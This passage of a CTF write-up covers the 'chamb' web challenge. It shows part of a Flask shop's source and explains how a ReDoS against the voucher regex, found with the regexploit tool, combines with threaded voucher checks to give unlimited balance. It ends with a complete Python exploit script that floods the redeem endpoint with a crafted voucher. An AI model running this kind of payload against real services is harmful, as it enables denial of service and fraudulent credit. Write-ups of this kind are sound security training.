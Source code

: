 ```python
        "message": f"Successfully purchased {product_name}. Remaining balance: {new_balance}, We will ship to you as fast as possible :)"
    }), 200

@app.route('/css/<path:filename>')
def serve_css(filename):
    return send_from_directory(os.path.join(app.root_path, 'assets', 'css'), filename)

@app.route('/js/<path:filename>')
def serve_js(filename):
    return send_from_directory(os.path.join(app.root_path, 'assets', 'js'), filename)

@app.route('/images/<path:filename>')
def serve_images(filename):
    return send_from_directory(os.path.join(app.root_path, 'assets', 'images'), filename)

if __name__ == '__main__':
    app.run("0.0.0.0", debug=False)

```

Notice that the check of our voucher uses multithread which is weird and dangerous, I thought it would be a race condition because of the threading being used there but I was wrong after a lot of try-and-fail, using race condition we can only consume the same or any two vouchers only twice i.e we can get the balance of 200 only.



At this point I wasn't aware of the hint and had no ideas to try it out, the CTF was over and I couldn't solve the challenge. The next day after the CTF in the morning I rechecked the website and noticed that I had many notifications in the platform, the last one was that a new hint was added to chamb challenge, felt despair a bit and continued to the challenge to see the hint. Now it mentioned regex and we know about multithreading, the first thing that came to my mind was to check for ReDos in [Hacktricks](https://book.hacktricks.xyz/pentesting-web/regular-expression-denial-of-service-redos) interestingly there was a clone and use tool for the job [regexploit](https://github.com/doyensec/regexploit) after giving it the regex that was used in the website we got a ReDos possible input.

![metactfv5-chamb-01](/static/images/metactf-writeups/metactfv5-chamb-01.png)

Using this output I made the following exploit to get an infinite balance to buy the flag 👌+🏴= 🙂

```python
#!/usr/bin/python3
import requests

url = "http://f52668c3-8361-4727-8634-ad0a85fec4ac.cscpsut.com/"
buy_flag = url + "/buy_product?product=Flag"
redeem_url = url + "/redeem_voucher"


res = requests.get(url)

session = res.cookies["session"]
voucher = "zoz-000-" + "0" * 3456 + "a"


for i in range(14):
    req = requests.post(
        redeem_url, cookies={"session": session}, data={"voucher": voucher}
    )
    print(f"Attempt {i + 1}", end="\r")
print()
req = requests.get(buy_flag, cookies={"session": session})
print(req.text)

```